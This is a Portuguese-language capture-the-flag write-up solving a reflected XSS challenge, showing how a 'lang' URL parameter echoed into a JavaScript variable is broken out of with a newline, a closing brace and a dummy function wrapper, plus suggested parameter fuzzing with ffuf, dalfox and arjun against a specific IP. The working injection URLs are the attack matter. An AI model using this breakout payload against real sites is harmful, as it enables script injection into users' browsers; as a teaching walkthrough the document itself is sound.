 Resolução do Desafio "DOM" XSS Reflected - https://bountyleaks.cf/challenge/dom.php

1.  Ao acessarmos a página, vemos um trecho de código em JS
```
// Its not used anymore
function display_message(){
 var lang = "en-US";
 if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}

// just say hello, doesnt matter what language do you speak, english is universal LOL
document.write('<h1>Welcome hacker =)</h1>');
```
2. Nesse ponto, levanta-se a suspeita que existe alguma querystring / parâmetro de URL que podemos manipular

Provavelmente a aplicação detecta qual o idioma do navegador do usuário ou aceita receber isso via parâmetro (refletindo na página).

3. Como não temos certeza, aqui caberiam duas abordagens:

3.1 Verificar que existem duas variáveis JS (lang e message) e verificar se via querystring elas são refletidas na página (?lang=teste e ?message=teste)

3.2 Utilizar algum fuzzer (ffuf, x8, dalfox, arjun) para usar um arquivo / lista cheio de parâmetros e ver qual pode estar refletindo na página: comando -url http://194.61.28.250/dom.php?FUZZAQUI=teste
4. Fazendo algum destes modos supracitados, chegamos a conclusão que acessando: http://194.61.28.250/dom.php?lang=123, faz com que o trecho de código da página vire:
```
// Its not used anymore
function display_message(){
 var lang = "123";
```
Dessa forma o valor informado pelo usuário via URL está refletindo na página (dando margem para injeção de códigos)
5. Como já estamos dentro de um contexto JS (dentro das tags script), não é preciso que a gente reabra essas tags para executar um javascript, mas mesmo assim, podemos confirmar que a aplicação não permite tags como < e > : http://194.61.28.250/dom.php?lang=123< 
Ao acessá-la, o parâmetro "var lang" volta para seu valor padrão: "en-US"
6. Então para executar o XSS, vamos precisar ter um pouco de conhecimento de JS, pois é o contexto que estamos inseridos: 

6.1 Nossa entrada de dados está sendo refletida dentro de um valor de variável (lang) que está dentro de uma função chamada display_message(), que por sua vez não é chamada automaticamente pelo site, somente declarada

6.2 Precisaremos, então, sair do contexto dessa função que não é chamada, para que nosso XSS seja executado assim que o usuário entrar na página

6.3 Para isso, precisamos fechar aquela chave da função display_message () "{", com uma chave fechando esse bloco de código: "}"

6.4 Caso acessássemos a URL: http://194.61.28.250/dom.php?lang=";%0a}%0aalert(123);// 
Considerando %0a para \n (quebra de linha), ficando o trecho de código do nosso site agora:
``` 
function display_message(){
 var lang = " ";
}
alert(123);//";
if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}
```
6.5 Conseguimos! Saímos do escopo da função JS, mas o JS não irá triggar, devido a um erro de sintaxe:
Não estamos mais dentro de uma função e existe linhas falando "return". O valor vai ser retornado pra onde? Não existe função englobando ela para esse retorno ficar explícito.
Esse erro inclusive será alertado em seu console do navegador. Qualquer erro de sintaxe JS dos sites voltam nele.

6.6 Vamos então criar uma outra função, fingindo que existe uma outra função logo após, englobando esses returns, então:
http://194.61.28.250/dom.php?lang=%22;%0a}%0aalert(document.domain);%0afunction%20nuncaserachamada(){//
Ficando nosso código:
```
function display_message(){
 var lang = "";
}
alert(123);
function nuncaserachamada(){//";
 if(lang == "en-US"){
  var message = "Welcome!";
  return message 
 }
 var message = "Bem-vindo!";
 return message;
}
```

Pronto =), XSS executado o/
